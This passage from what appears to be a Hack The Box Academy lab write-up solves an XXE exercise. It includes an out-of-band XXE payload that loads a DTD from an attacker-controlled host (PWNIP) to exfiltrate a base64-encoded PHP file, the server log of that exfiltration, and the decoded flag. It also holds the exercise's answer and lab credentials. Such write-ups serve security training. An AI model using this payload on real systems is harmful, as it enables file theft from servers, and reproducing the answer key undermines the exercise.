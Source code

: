 Subsequently, students need to send the below XML data by appending it at the end of the request:

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE email [ 
	<!ENTITY % remote SYSTEM "http://PWNIP:8000/XXE.dtd">
	  %remote;
	  %oob;
	]>
	<root>
		&content;
	</root>
```

![[HTB Solutions/CBBH/z. images/71957beac4e87ba922dd987ff2cfb074_MD5.jpg]]

After forwarding the request, students will notice that their HTTP server has gotten a request for the "XXE.dtd" file, along with the base64 encoded string of the PHP file:

```
10.129.138.36 - - [21/Jul/2022 18:57:49] "GET /XXE.dtd HTTP/1.0" 200 -
10.129.138.36 - - [21/Jul/2022 18:57:49] "GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K HTTP/1.0" 200 -
```

Decoding the base64 string yields out the flag `HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}`:

Code: shell

```shell
echo "PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K" | base64 -d
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo "PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K" | base64 -d

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

Answer: `HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}`

# Web Attacks - Skills Assessment

## Question 1

### "Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'."

After spawning the target machine, students need to visit its website's root page and login with the credentials `htb-student:Academy_student!`, making sure to have the Network tab of the Web Developer Tools (`FN` + `F12`) open:
